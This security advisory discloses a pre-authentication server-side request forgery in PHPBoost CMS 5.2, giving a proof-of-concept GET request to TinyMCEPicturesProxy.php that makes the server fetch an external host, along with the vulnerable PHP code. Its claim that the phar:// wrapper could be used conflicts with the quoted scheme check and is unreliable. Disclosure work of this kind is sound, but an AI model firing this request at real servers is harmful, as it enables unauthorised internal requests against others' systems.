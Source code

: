 ```yaml
---
permalink: /c10101
---
```

{% raw %}
# C10100: PHPBoost CMS 5.2, SSRF (pre-auth)

[PHPBoost](https://www.phpboost.com/) is a French and free content management system (CMS), which exists since 2005, allowing you to easily create website.

The latest version of the CMS (v5.2) is accessible at the following URL:
- https://www.phpboost.com/download/

After installing the application and performing some `grep` we can easily identify the presence of an Server-side request forgery (SSRF).

## How ?

By making an HTTP GET request with the parameter `$_GET["url"]` to the page <span style="color:red">\<ROOT\>/TinyMCE/lib/TinyMCEPicturesProxy.php</span>, it is possible to exploit the vulnerability.

Request:
```
GET /projects/phpboost/TinyMCE/lib/TinyMCEPicturesProxy.php?url=http://d.38b76103fe85968c5a4e.d.XX.XXX.XX HTTP/1.1
Host: 127.0.0.1
User-Agent: curl/7.64.1
Accept: */*
Connection: close


```

![alt text](../captures/c21_0.png "Figure 1: SSRF")


## Why ?

Within the following code:

File: <span style="color:red">\<ROOT\>/TinyMCE/lib/TinyMCEPicturesProxy.php</span>
```php
<?php

...

$validMimeTypes = array("image/gif", "image/jpeg", "image/png");

if (!isset($_GET["url"]) || !trim($_GET["url"])) {
    header("HTTP/1.0 500 Url parameter missing or empty.");
    return;
}

$scheme = parse_url($_GET["url"], PHP_URL_SCHEME);
if ($scheme === false || in_array($scheme, array("http", "https")) === false) {
    header("HTTP/1.0 500 Invalid protocol.");
    return;
}

$content = file_get_contents($_GET["url"]);
$info = getimagesizefromstring($content);

if ($info === false || in_array($info["mime"], $validMimeTypes) === false) {
    header("HTTP/1.0 500 Url doesn't seem to be a valid image.");
    return;
}

header('Content-Type:' . $info["mime"]);
echo $content;
?>
```

The part responsible for this vulnerability is `$content = file_get_contents($_GET["url"]);`. The impact of the vulnerability can be  more important as the choice of the wrapper is left to the attacker. He could therefore use the `phar://` wrapper to potentially perform a code execution.
{% endraw %}